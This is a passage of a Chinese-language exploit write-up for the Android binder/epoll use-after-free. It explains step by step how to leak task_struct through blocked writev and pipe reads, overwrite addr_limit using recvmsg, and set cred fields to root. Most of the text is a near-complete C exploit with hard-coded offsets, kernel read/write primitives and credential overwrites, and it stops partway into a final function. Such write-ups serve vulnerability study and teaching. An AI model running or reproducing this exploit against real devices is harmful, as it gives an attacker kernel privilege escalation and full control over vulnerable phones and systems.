	bool looper_need_return; /* can be written by other thread */
	struct binder_transaction *transaction_stack;
	struct list_head todo;
	bool process_todo;
	struct binder_error return_error;
	struct binder_error reply_error;
	wait_queue_head_t wait; 
	struct binder_stats stats;
	atomic_t tmp_ref;
	bool is_dead;
	struct task_struct *task;
};
```

在wrtev中存在

```c
iov = kmalloc(nr_segs*sizeof(struct iovec), GFP_KERNEL)
copy_from_user(iov, uvector, nr_segs*sizeof(*uvector))
```

我们可以在free掉binder_thread后喷射到上面前，

binder_thread有408的大小 而iovec有16的大小，408/16 需要构造25个iovec结构在覆盖free掉的binder_thread

而在取消链接时，会将wait->list_head的地址写入free后的binder_thread,破坏到我们的iovec结构，我们就是要根据破坏后填写的地址来进行读取



m_4gb_aligned_page为地址0x1000000000 在执行取消链接操作之前，remove_wait_queue尝试获取自旋锁。如果值不是0，则线程将继续循环，并且永远不会发生取消链接操作。由于iov_base是一个64位的值，我们希望确保低32位是0。

关键点在于利用writev pipe readv的堵塞，来读取破坏我们的iovc后填写的地址

```c
   printf("[+] start opening /dev/binder");
    m_binder_fd = open("/dev/binder",O_RDONLY);
    if (m_binder_fd < 0) {
            printf("\t[-] Unable to get binder fd\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] m_binder_fd: 0x%x\n", m_binder_fd);
        }


    printf("[+] Creating event poll\n");
   
        m_epoll_fd = epoll_create(1);
   
       if (m_epoll_fd < 0) {
            printf("\t[-] Unable to get event poll fd\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] m_epoll_fd: 0x%x\n", m_epoll_fd);
        }


    printf("[+] setting up the pipe");
    if(pipe(pipe_fd)== -1){
        printf("[-] unable create pipe\n");
        exit(EXIT_FAILURE);
    }else{
        printf("create pipe successfully\n");
    }

    if(fcntl(pipe_fd[0],F_SETPIPE_SZ,PAGE_SIZE)== -1){
        printf("[-] Unable to change the pipe capacity\n");
        exit(EXIT_FAILURE);
    }else{
        printf("\t[*] Changed the pipe capacity to: 0x%x\n", PAGE_SIZE);
    }

```

首先申请一个binder_fd,evemtpoll的fd,开一个管道，将管道容纳的大小改为PAGE_SIZE(0x1000)

```c
    printf("[+] Setting up iovecs\n");


      if (!m_4gb_aligned_page) {
        printf("[+] Mapping 4GB aligned page\n");

        m_4gb_aligned_page = mmap(
                (void *) 0x100000000ul,
                PAGE_SIZE,
                PROT_READ | PROT_WRITE,
                MAP_PRIVATE | MAP_ANONYMOUS,
                -1,
                0
        );

        if (!m_4gb_aligned_page) {
            printf("\t[-] Unable to mmap 4GB aligned page\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] Mapped page: %p\n", m_4gb_aligned_page);
        }
    }

    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = PAGE_SIZE;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *) 0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = PAGE_SIZE;
    
    printf("[+] Linking eppoll_entry->wait.entry to binder_thread->wait.head\n");

    epoll_ctl(m_epoll_fd, EPOLL_CTL_ADD, m_binder_fd, &m_epoll_event);
```

接着填写覆盖掉binder_thread的iovc,以及将epoll的节点链接到binder_thread上面去

```c
  printf("[+] Freeing binder_thread\n");
    ioctl(m_binder_fd, BINDER_THREAD_EXIT, NULL);
    ssize_t nBytesWritten =  writev(pipe_fd[1],iovecStack,IOVEC_COUNT);
```

之后主线程free掉binder_thread,调用witev 喷射到free后的binder_thread上面去，并将我们的iovc覆盖了free后的binder_thread,

接着根据我们的iovc向管道写数据，在第IOVEC_WQ_INDEX(也就是10)个iovc时堵塞，因为之前将管道大小设为0x1000,在m_4gb_aligned_page读取0x1000数据，写入管道后，管道堵塞，

接着执行子线程

```c

    if(childPid == 0){


        sleep(2);
        printf("[+] Un-linking eppoll_entry->wait.entry from binder_thread->wait.head\n");

        epoll_ctl(m_epoll_fd, EPOLL_CTL_DEL, m_binder_fd, &m_epoll_event);
        nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));

        if (nBytesRead != PAGE_SIZE) {
            printf("\t[-] CHILD: read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
            exit(EXIT_FAILURE);
        }

        exit(EXIT_SUCCESS);

    }
```

 sleep(2);是为了等主线程执行完上述步骤

epoll_ctl(m_epoll_fd, EPOLL_CTL_DEL, m_binder_fd, &m_epoll_event);破坏掉我们的iovc,将iovecStack[IOVEC_WQ_INDEX].iov_len，iovecStack[IOVEC_WQ_INDEX + 1].iov_base改为wait.head.next原本在binder_thread的地址

nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));解除阻塞，返回到主线程

```c
 ssize_t nBytesWritten =  writev(pipe_fd[1],iovecStack,IOVEC_COUNT);
```

继续执行writev, iovecStack[IOVEC_WQ_INDEX]已经写入管道，并在子线程中读取了,管道清空，接着执行 iovecStack[IOVEC_WQ_INDEX+1],注意这里的iovecStack[IOVEC_WQ_INDEX+1].base已经改为了wait.head.next原本在binder_thread的地址，因此会将wait.head.next原本在binder_thread的地址开始的剩余内容写入管道

```c
 if(nBytesWritten == 0x2000){
        printf("[+] write 0x2000 word\n");
    }else{
        printf("[-]writev failed. nBytesWritten: 0x%lx, expected: 0x%x\n", nBytesWritten, PAGE_SIZE * 2);
        exit(1);
    }

    nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));

    if (nBytesRead != PAGE_SIZE) {
        printf("\t[-] read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
        exit(EXIT_FAILURE);
    }

    //
    // Wait for the child process to exit
    //

    wait(nullptr);
    m_task_struct = (struct task_struct *) *((int64_t *) (dataBuffer + TASK_STRUCT_OFFSET_IN_LEAKED_DATA));
    m_pidAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, pid));
    m_credAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, cred));
    m_nsproxyAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, nsproxy));

    printf("[+] Leaked task_struct: %p\n", m_task_struct);
    printf("\t[*] &task_struct->pid: %p\n", m_pidAddress);
    printf("\t[*] &task_struct->cred: %p\n", m_credAddress);
    printf("\t[*] &task_struct->nsproxy: %p\n", m_nsproxyAddress);
```

接着就是从管道读取binder_thread的剩余内容，从而泄露出task_struct的地址

### 修改addr_limit

在x86的task_struct中存在thread_struct  x86的addr_limit是放在thread_struct的

```c
struct task_struct {
...
	struct thread_struct		thread;

	/*
	 * WARNING: on x86, 'thread_struct' contains a variable-sized
	 * structure.  It *MUST* be at the end of 'task_struct'.
	 *
	 * Do not put anything below here!
	 */
};
```

```c
struct thread_struct {
	...

	mm_segment_t		addr_limit;

	unsigned int		sig_on_uaccess_err:1;
	unsigned int		uaccess_err:1;	/* uaccess failed */

	/* Floating point and extended processor state */
	struct fpu		fpu;
	/*
	 * WARNING: 'fpu' is dynamically-sized.  It *MUST* be at
	 * the end.
	 */
};
```

而在thread_struct中有addr_limit,因而我们可以根据addr_limit在task_struct的偏移来修改addr_limit,同样用泄露task_struct的方法来写入addr_limit，但是io的堵塞 readv做不到，得换成recvmsg sendmsg socket，来堵塞io

接着来说明步骤如何patch掉addr_limit

```c

    if(socketpair(AF_UNIX,SOCK_STREAM,0,sock_fd) == -1)
    {
         printf("[-]can not create socketpair\n");
         exit(EXIT_FAILURE);
    }else{
        printf("[+] created socketpair successfully\n");
    }

    printf("[+] writing junkcode to socket\n");

    static char junkSocketData[] = { 0x41  };
    nBytesWritten = write(sock_fd[1],&junkSocketData, sizeof(junkSocketData));

    if(nBytesWritten != sizeof(junkSocketData)){
        printf("[-] write junkcode failed , writed %lx, expected %lx",nBytesWritten,sizeof(junkSocketData));
        exit(EXIT_FAILURE);
    }
```

申请一个socket,并向socket中填充一个垃圾数据

```c
   m_binder_fd = open("/dev/binder",O_RDONLY);

    if(m_binder_fd < 0){
        printf("[-] can not open /dev/binder\n");
        exit(EXIT_FAILURE);
    }else{
        printf("[+] open /dev/binder successfully m_binder_fd= %d \n",m_binder_fd);
    }
    
    printf("[+] start opening epollevent\n");

    m_epoll_fd = epoll_create(1);

    if(m_epoll_fd < 0){
        printf("[-] can not create eventpoll\n");
        exit(EXIT_FAILURE);
    }else{
        printf("[+] create eventpoll successfully m_epoll_fd = %d \n",m_epoll_fd);
    }

    printf("[+] Setting up socket \n");
```

申请binder的fd eventpoll的fd

```c
    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = 1;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *)0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = 0x8 + 0x8 + 0x8 +0x8;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_base = (void *)0x42424242;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_len = 0x8;
    static uint64_t FinalSocketData[] = {
        0x1,
        0x41414141,
        0x8+0x8+0x8+0x8,
        (uint64_t) ((uint8_t *) m_task_struct +
                        OFFSET_TASK_STRUCT_ADDR_LIMIT),//addr_limit的地址
        0xfffffffffffffffe
    };
     

    message.msg_iov = iovecStack;
    message.msg_iovlen = IOVEC_COUNT;

    printf("[+] linking eppoll_entry->wait.entry to binder_thread->wait.head \n");
    epoll_ctl(m_epoll_fd,EPOLL_CTL_ADD,m_binder_fd, &m_epoll_event);
```



填写我们的iovc,然后将eventpoll链接到binder_thread上面去

```c
 printf("[+] Freeing binder_thread \n");
    ioctl(m_binder_fd,BINDER_THREAD_EXIT,NULL);

    ssize_t nBytesReceived = recvmsg(sock_fd[0],&message,MSG_WAITALL);
```

接着主线程free掉binder_thread

recvmsg malloc喷射到free的binder_thread上面去，然后将我们的iovc覆盖掉free的binder_thread,接着将之前我们传入的一个字节的垃圾数据写入 m_4gb_aligned_page,然后堵塞了，进行子线程

```c
pid_t childPid = fork();

    if(childPid == 0){
    
    sleep(2);


    printf("[+] unlinking eppoll_entry->wait.entry from binder_thread->wait.head \n");
    epoll_ctl(m_epoll_fd,EPOLL_CTL_DEL,m_binder_fd, &m_epoll_event);
    
   nBytesWritten =  write(sock_fd[1],FinalSocketData,sizeof(FinalSocketData));

    if(nBytesWritten != sizeof(FinalSocketData)){
        printf("\t [-]write failed. nBytesWritten : 0x%lx , expected : 0x%lx\n",nBytesWritten,sizeof(FinalSocketData));
        exit(EXIT_FAILURE);
    }

    exit(EXIT_SUCCESS);
    }
```

sleep(2);确保主线程执行完上述内容

 epoll_ctl破坏掉我们的iovc,将iovecStack[IOVEC_WQ_INDEX].iov_len，iovecStack[IOVEC_WQ_INDEX + 1].iov_base改为wait.head.next原本在binder_thread的地址

write 将FinalSocketData写入socket,此时堵塞解除继续

```c
ssize_t nBytesReceived = recvmsg(sock_fd[0],&message,MSG_WAITALL
```

由于iovecStack[11].iov_base研究改为wait.head.next原本在binder_thread的地址，因此会在wait.head.next地址出写上0x8+0x8+0x8+0x8的数据，也就是

iovecstack[10].iov_len上填写FinalSocketData[0]

iovecstack[11].iov_base上填写FinalSocketData[1]

iovecstack[11].iov_len上填写FinalSocketData[2]

iovecstack[12].iov_base上填写FinalSocketData[3] 这一步将iovecstack[12].iov_base从原来的0x42424242覆盖成了addr_limit的地址

接着执行iovecStack[12]，将FinalSocketData[4]也就是 0xfffffffffffffffe写入addr_limit

由此patch掉了addr_limit

### 修改cred

知道了task_struct 和修改了addr_limit,因此可以在cred的地址上直接写入0

```c
printf("[+] Patching current task cred members \n");

    m_cred = (struct cred *)kReadQword(m_credAddress);

    if(!m_cred){
        printf("\t [-] Failed to read cred: %p",m_credAddress);
        exit(EXIT_FAILURE);
    }
    printf("\t cred: %p\n",m_cred);

    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, uid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, gid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, suid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, sgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, euid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, egid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsuid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, securebits)), SECUREBITS_DEFAULT);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_inheritable)), CAP_EMPTY_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_permitted)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_effective)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_bset)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_ambient)), CAP_EMPTY_SET);
```

完整的exp:

```c
#define _GNU_SOURCE
#include <stdbool.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <ctype.h>
#include <sys/uio.h>
#include <err.h>
#include <sched.h>
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <linux/sched.h>
#include <string.h>
#include <sys/prctl.h>
#include <sys/socket.h>
#include <sys/un.h>
#include <errno.h>

struct binder_thread {
    uint8_t junk1[160];         /*    0    0xa0 */
    uint8_t wait[24];           /* 0xa0    0x18 */
    uint8_t junk2[224];         /* 0xb8    0xe0 */
} __attribute__((packed));      /* size:  0x198 */


struct task_struct {
    uint8_t junk1[1256];        /*     0  0x4e8 */
    pid_t pid;                  /* 0x4e8    0x4 */
    uint8_t junk2[412];         /* 0x4ec  0x19c */
    uint64_t cred;              /* 0x688    0x8 */
    uint8_t junk3[48];          /* 0x690   0x30 */
    uint64_t nsproxy;           /* 0x6c0    0x8 */
    uint8_t junk4[1944];        /* 0x6c8  0x798 */
} __attribute__((packed));      /* size:  0xe60 */


struct cred {
    int32_t usage;              /*    0    0x4 */
    uint32_t uid;               /*  0x4    0x4 */
    uint32_t gid;               /*  0x8    0x4 */
    uint32_t suid;              /*  0xc    0x4 */
    uint32_t sgid;              /* 0x10    0x4 */
    uint32_t euid;              /* 0x14    0x4 */
    uint32_t egid;              /* 0x18    0x4 */
    uint32_t fsuid;             /* 0x1c    0x4 */
    uint32_t fsgid;             /* 0x20    0x4 */
    uint32_t securebits;        /* 0x24    0x4 */
    uint64_t cap_inheritable;   /* 0x28    0x8 */
    uint64_t cap_permitted;     /* 0x30    0x8 */
    uint64_t cap_effective;     /* 0x38    0x8 */
    uint64_t cap_bset;          /* 0x40    0x8 */
    uint64_t cap_ambient;       /* 0x48    0x8 */
    uint8_t junk2[40];          /* 0x50   0x28 */
    void *security;             /* 0x78    0x8 */
    uint8_t junk3[40];          /* 0x80   0x28 */
} __attribute__((packed));      /* size:  0xA8 */

#define PAGE_SIZE 0x1000
#define BINDER_THREAD_SZ 0x190
#define WAITQUEUE_OFFSET 0xA0
#define IOVEC_WQ_INDEX (0xa0 / 16)
#define IOVEC_COUNT (BINDER_THREAD_SZ/16)
#define BINDER_THREAD_EXIT 0x40046208ul
#define TASK_STRUCT_OFFSET_IN_LEAKED_DATA 0xE8
#define OFFSET_TASK_STRUCT_ADDR_LIMIT 0xA18
#define GLOBAL_ROOT_UID     (uint32_t)0
#define GLOBAL_ROOT_GID     (uint32_t)0
#define SECUREBITS_DEFAULT  (uint32_t)0x00000000
#define CAP_EMPTY_SET       (uint64_t)0
#define CAP_FULL_SET        (uint64_t)0x3FFFFFFFFF
#define SYMBOL_OFFSET_init_nsproxy      (ptrdiff_t)0x1233ac0
#define SYMBOL_OFFSET_selinux_enforcing (ptrdiff_t)0x14acfe8

int m_binder_fd = 0;
int m_epoll_fd = 0;
void *m_4gb_aligned_page;
struct epoll_event m_epoll_event = {.events = EPOLLIN};
void *m_pidAddress;
struct cred *m_cred;
void *m_credAddress;
void *m_nsproxyAddress;
int m_kernel_rw_pipe_fd[2] = {0};
struct task_struct * m_task_struct;

void leak_task_struct(void){


      int ret;
    cpu_set_t cpuSet;

    CPU_ZERO(&cpuSet);
    CPU_SET(0, &cpuSet);

    //
    // It's a good thing to bind the CPU to a specific core,
    // so that we do not get scheduled to different core and
    // mess up the SLUB state
    //

    printf("[+] Binding to 0th core\n");

    ret = sched_setaffinity(0, sizeof(cpu_set_t), &cpuSet);

    if (ret < 0) {
        printf("[-] bindCPU failed: 0x%x\n", errno);
    }


    int pipe_fd[2] = {0};
    ssize_t nBytesRead = 0;
    static char dataBuffer[PAGE_SIZE] = {0};
    struct iovec iovecStack[IOVEC_COUNT]= {nullptr};
   
    printf("[+] start opening /dev/binder");
    m_binder_fd = open("/dev/binder",O_RDONLY);
    if (m_binder_fd < 0) {
            printf("\t[-] Unable to get binder fd\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] m_binder_fd: 0x%x\n", m_binder_fd);
        }


    printf("[+] Creating event poll\n");
   
        m_epoll_fd = epoll_create(1);
   
       if (m_epoll_fd < 0) {
            printf("\t[-] Unable to get event poll fd\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] m_epoll_fd: 0x%x\n", m_epoll_fd);
        }


    printf("[+] setting up the pipe");
    if(pipe(pipe_fd)== -1){
        printf("[-] unable create pipe\n");
        exit(EXIT_FAILURE);
    }else{
        printf("create pipe successfully\n");
    }

    if(fcntl(pipe_fd[0],F_SETPIPE_SZ,PAGE_SIZE)== -1){
        printf("[-] Unable to change the pipe capacity\n");
        exit(EXIT_FAILURE);
    }else{
        printf("\t[*] Changed the pipe capacity to: 0x%x\n", PAGE_SIZE);
    }

    printf("[+] Setting up iovecs\n");


      if (!m_4gb_aligned_page) {
        printf("[+] Mapping 4GB aligned page\n");

        m_4gb_aligned_page = mmap(
                (void *) 0x100000000ul,
                PAGE_SIZE,
                PROT_READ | PROT_WRITE,
                MAP_PRIVATE | MAP_ANONYMOUS,
                -1,
                0
        );

        if (!m_4gb_aligned_page) {
            printf("\t[-] Unable to mmap 4GB aligned page\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] Mapped page: %p\n", m_4gb_aligned_page);
        }
    }

    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = PAGE_SIZE;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *) 0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = PAGE_SIZE;
    
    printf("[+] Linking eppoll_entry->wait.entry to binder_thread->wait.head\n");

    epoll_ctl(m_epoll_fd, EPOLL_CTL_ADD, m_binder_fd, &m_epoll_event);

    pid_t childPid = fork();

    if(childPid == 0){


        sleep(2);
        printf("[+] Un-linking eppoll_entry->wait.entry from binder_thread->wait.head\n");

        epoll_ctl(m_epoll_fd, EPOLL_CTL_DEL, m_binder_fd, &m_epoll_event);
        nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));

        if (nBytesRead != PAGE_SIZE) {
            printf("\t[-] CHILD: read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
            exit(EXIT_FAILURE);
        }

        exit(EXIT_SUCCESS);

    }

    printf("[+] Freeing binder_thread\n");
    ioctl(m_binder_fd, BINDER_THREAD_EXIT, NULL);
    ssize_t nBytesWritten =  writev(pipe_fd[1],iovecStack,IOVEC_COUNT);
    if(nBytesWritten == 0x2000){
        printf("[+] write 0x2000 word\n");
    }else{
        printf("[-]writev failed. nBytesWritten: 0x%lx, expected: 0x%x\n", nBytesWritten, PAGE_SIZE * 2);
        exit(1);
    }

    nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));

    if (nBytesRead != PAGE_SIZE) {
        printf("\t[-] read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
        exit(EXIT_FAILURE);
    }

    //
    // Wait for the child process to exit
    //

    wait(nullptr);
    m_task_struct = (struct task_struct *) *((int64_t *) (dataBuffer + TASK_STRUCT_OFFSET_IN_LEAKED_DATA));
    m_pidAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, pid));
    m_credAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, cred));
    m_nsproxyAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, nsproxy));

    printf("[+] Leaked task_struct: %p\n", m_task_struct);
    printf("\t[*] &task_struct->pid: %p\n", m_pidAddress);
    printf("\t[*] &task_struct->cred: %p\n", m_credAddress);
    printf("\t[*] &task_struct->nsproxy: %p\n", m_nsproxyAddress);
    
}


void PatchAddrLimit(){
    int sock_fd[2] = {0};
    ssize_t nBytesWritten = 0;
    struct msghdr message = {nullptr};
    struct iovec iovecStack[IOVEC_COUNT] = {nullptr};

    printf("[+] starting opening binder\n");

    m_binder_fd = open("/dev/binder",O_RDONLY);

    if(m_binder_fd < 0){
        printf("[-] can not open /dev/binder\n");
        exit(EXIT_FAILURE);
    }else{
        printf("[+] open /dev/binder successfully m_binder_fd= %d \n",m_binder_fd);
    }
    
    printf("[+] start opening epollevent\n");

    m_epoll_fd = epoll_create(1);

    if(m_epoll_fd < 0){
        printf("[-] can not create eventpoll\n");
        exit(EXIT_FAILURE);
    }else{
        printf("[+] create eventpoll successfully m_epoll_fd = %d \n",m_epoll_fd);
    }

    printf("[+] Setting up socket \n");

    if(socketpair(AF_UNIX,SOCK_STREAM,0,sock_fd) == -1)
    {
         printf("[-]can not create socketpair\n");
         exit(EXIT_FAILURE);
    }else{
        printf("[+] created socketpair successfully\n");
    }

    printf("[+] writing junkcode to socket\n");

    static char junkSocketData[] = { 0x41  };
    nBytesWritten = write(sock_fd[1],&junkSocketData, sizeof(junkSocketData));

    if(nBytesWritten != sizeof(junkSocketData)){
        printf("[-] write junkcode failed , writed %lx, expected %lx",nBytesWritten,sizeof(junkSocketData));
        exit(EXIT_FAILURE);
    }

    printf("[+] setting up iovecs \n");

    if (!m_4gb_aligned_page) {
        printf("[+] Mapping 4GB aligned page\n");

        m_4gb_aligned_page = mmap(
                (void *) 0x100000000ul,
                PAGE_SIZE,
                PROT_READ | PROT_WRITE,
                MAP_PRIVATE | MAP_ANONYMOUS,
                -1,
                0
        );

        if (!m_4gb_aligned_page) {
            printf("\t[-] Unable to mmap 4GB aligned page\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] Mapped page: %p\n", m_4gb_aligned_page);
        }
    }

    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = 1;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *)0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = 0x8 + 0x8 + 0x8 +0x8;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_base = (void *)0x42424242;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_len = 0x8;
    static uint64_t FinalSocketData[] = {
        0x1,
        0x41414141,
        0x8+0x8+0x8+0x8,
        (uint64_t) ((uint8_t *) m_task_struct +
                        OFFSET_TASK_STRUCT_ADDR_LIMIT),
        0xfffffffffffffffe
    };
     

    message.msg_iov = iovecStack;
    message.msg_iovlen = IOVEC_COUNT;

    printf("[+] linking eppoll_entry->wait.entry to binder_thread->wait.head \n");
    epoll_ctl(m_epoll_fd,EPOLL_CTL_ADD,m_binder_fd, &m_epoll_event);

    pid_t childPid = fork();

    if(childPid == 0){
    
    sleep(2);


    printf("[+] unlinking eppoll_entry->wait.entry from binder_thread->wait.head \n");
    epoll_ctl(m_epoll_fd,EPOLL_CTL_DEL,m_binder_fd, &m_epoll_event);
    
   nBytesWritten =  write(sock_fd[1],FinalSocketData,sizeof(FinalSocketData));

    if(nBytesWritten != sizeof(FinalSocketData)){
        printf("\t [-]write failed. nBytesWritten : 0x%lx , expected : 0x%lx\n",nBytesWritten,sizeof(FinalSocketData));
        exit(EXIT_FAILURE);
    }

    exit(EXIT_SUCCESS);
    }
    
    printf("[+] Freeing binder_thread \n");
    ioctl(m_binder_fd,BINDER_THREAD_EXIT,NULL);

    ssize_t nBytesReceived = recvmsg(sock_fd[0],&message,MSG_WAITALL);

    ssize_t expectedBytesReceived = iovecStack[IOVEC_WQ_INDEX].iov_len + iovecStack[IOVEC_WQ_INDEX + 1].iov_len + iovecStack[IOVEC_WQ_INDEX + 2].iov_len;

    if(nBytesReceived != expectedBytesReceived){
         printf("\t[-] recvmsg failed . nBytesReceived: 0x%lx , expected: 0x%lx\n",nBytesReceived,expectedBytesReceived);
         exit(EXIT_FAILURE);
    }
    wait(nullptr);


}

void kRead(void * Address ,size_t Length ,void * uBuffer){
    ssize_t nBytesWritten = write(m_kernel_rw_pipe_fd[1],Address,Length);

    if( (size_t) nBytesWritten != Length ){
        printf("[-] Failed to write data from kernel :%p\n",Address);
        exit(EXIT_FAILURE);
    }

   ssize_t nBytesRead    = read(m_kernel_rw_pipe_fd[0],uBuffer,Length);

   if( (size_t) nBytesRead != Length ){
       printf("[-] Failed to read data from kernel : %p\n",Address);
       exit(EXIT_FAILURE);
   }

}

void kWrite(void * Address, size_t Length, void * uBuffer){
   ssize_t nBytesWritten = write(m_kernel_rw_pipe_fd[1],uBuffer,Length);
   if( (size_t)nBytesWritten != Length ){
       printf("[-] Failed to write data from user: %p\n",Address);
       exit(EXIT_FAILURE);
   }

   ssize_t nBytesRead = read(m_kernel_rw_pipe_fd[0], Address, Length);

   if( (size_t)nBytesRead != Length ){
       printf("[-] Failed to write data to kernel: %p\n",Address);
       exit(EXIT_FAILURE);
   }

}


uint64_t kReadQword(void *Address) {
    uint64_t buffer = 0;

    kRead(Address, sizeof(buffer), &buffer);
    return buffer;
}


/**
 * Read dword from arbitrary address
 *
 * @param Address: address from where to read
 * @return: dword
 */
uint32_t kReadDword(void *Address) {
    uint32_t buffer = 0;

    kRead(Address, sizeof(buffer), &buffer);
    return buffer;
}


/**
 * Write dword to arbitrary address
 *
 * @param Address: address where to write
 * @param Value: value to write
 */
void kWriteDword(void *Address, uint32_t Value) {
    kWrite(Address, sizeof(Value), &Value);
}


/**
 * Write qword to arbitrary address
 *
 * @param Address: address where to write
 * @param Value: value to write
 */
void kWriteQword(void *Address, uint64_t Value) {
    kWrite(Address, sizeof(Value), &Value);
}

void JudgeRWAnyWhere(){
